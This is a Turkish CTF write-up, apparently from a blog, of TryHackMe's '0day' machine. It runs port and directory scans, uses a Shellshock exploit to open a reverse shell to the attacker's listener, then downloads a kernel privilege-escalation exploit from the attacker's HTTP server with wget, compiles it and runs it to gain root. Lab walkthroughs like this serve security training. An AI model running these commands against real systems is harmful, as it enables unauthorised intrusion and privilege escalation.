 ```yaml
---
title: "0day Makine Çözümü"
date: "2025-03-22"
tags: ["ctf", "tryhackme"]
---
```


Merhabalar, bu yazımda sizlere [TryHackMe](https://tryhackme.com/) platformunda bulunan "0day" isimli makinenin çözümü anlatacağım. Keyifli Okumalar...

1 - *Nmap* aracını kullanarak makine üzerindeki açık portlar ve servisler hakkında detaylı bilgi ediniyorum.

```shell
nmap -sS -sV -O 10.10.96.225
```

2 - Tarama sonucunda 22 ve 80 numaralı portların açık olduğunu görüyorum.

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.4
OS details: Linux 5.4
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

3 -  *gobuster* aracını kullanarak 80 numaralı port üzerinde dizin taraması yapıyorum.

```shell
> gobuster dir -u http://10.10.96.225/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50       
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.96.225/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/04 17:28:19 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 309] [--> http://10.10.96.225/img/]
/cgi-bin              (Status: 301) [Size: 313] [--> http://10.10.96.225/cgi-bin/]
/uploads              (Status: 301) [Size: 313] [--> http://10.10.96.225/uploads/]
/admin                (Status: 301) [Size: 311] [--> http://10.10.96.225/admin/]
/css                  (Status: 301) [Size: 309] [--> http://10.10.96.225/css/]
/js                   (Status: 301) [Size: 308] [--> http://10.10.96.225/js/]
/backup               (Status: 301) [Size: 312] [--> http://10.10.96.225/backup/]
/secret               (Status: 301) [Size: 312] [--> http://10.10.96.225/secret/]
```

4 - **backup** dizini içerisinde bir RSA anahtarı buluyorum. Geri kalan dizinlerden herhangi bir saldırı vektörü bulamadığım için *nikto* aracı ile web sitesini tarıyorum. *Nikto* taramasından sonra web sitesinde [CVE-2014-6278](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278) zaafiyetinin olduğunu görüyorum.

```shell
> nikto -h 10.10.180.23

*
*
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /cgi-bin/test.cgi: Uncommon header '93e4r0-cve-2014-6278' found, with contents: true.
*
*

```

5 - Daha sonra [exploit-db](https://www.exploit-db.com/) adresinden [ilgili](https://www.exploit-db.com/exploits/34900) zaafiyetin ID'sini öğreniyorum. *searchsploit* aracı ile zafiyet kodunu indiriyorum.

```shell
> searcsploit -m 34900
```

6 - Gerekli parametreleri girip python kodunu çalıştırıyorum.

```shell
> python2.7 34900.py payload=reverse rhost=10.10.96.225 lhost=XX.XX.XX.XX lport=4444                                
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-sys/entropysearch.cgi
[*] 404 on : /cgi-sys/entropysearch.cgi
[-] Trying exploit on : /cgi-sys/defaultwebpage.cgi
[*] 404 on : /cgi-sys/defaultwebpage.cgi
[-] Trying exploit on : /cgi-mod/index.cgi
[*] 404 on : /cgi-mod/index.cgi
[-] Trying exploit on : /cgi-bin/test.cgi
[!] Successfully exploited
[!] Incoming connection from 10.10.96.225
10.10.96.225> ls
test.cgi
```

7 - Home dizinine girip *user.txt* dosyasını okuyarak ilk bayrağımızı elde ediyoruz.

```shell
10.10.96.225> cd /home
10.10.96.225> ls
ryan

10.10.96.225> cd ryan
10.10.96.225> ls
user.txt

10.10.96.225> cat user.txt
THM{CENSORED}
```

8 - *uname -a* komutu ile sistem hakkında bilgi topluyorum.

```shell
10.10.96.225> uname -a   
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

9 - *searchsploit* aracı ile "Linux Kernel 3.13.0" sistem bilgisini aratıyorum. Daha sonra **37292** id'li zaafiyeti indiriyorum.

```system
searchsploit "Linux Kernel 3.13.0"
*
*
*
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pri | linux/local/37292.c
*
*
*
searchsploit -m 37292
```

10 - Pythondaki "http.server" modülünü kullanarak 37292.c dosyasını zaafiyetli makineye aktarıyorum. *gcc* ile C dosyasını derliyorum.

```shell
# Saldırgan Makinesi
> python -m http.server

# Hedef Makine
cd /tmp
wget http://XX.XX.XX.XX:8000/37292.c
gcc 37292.c -o root
```

11 - Derledikten sonra bir hata alıyorum. Bu hatayı çözmek için aşağıdaki kodu girip tekrar derliyorum.

```shell
# Alınan Hata

# Hatayı gidermek için
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
gcc 37292.c -o root && ./root
```

12 - *whoami* komutunu çalıştırdığımda **root** kullanıcısına geçtiğimi görüyorum. *root* dizinindeki root.txt dosyasını okuyarak ikinci ve son bayrağımızı elde ediyoruz.

```shell
10.10.96.225> whoami
# 
10.10.96.225> 
root
# 
10.10.96.225> 
# 
10.10.96.225> cat /root/root.txt
# 
10.10.96.225> 
THM{CENSORED}
```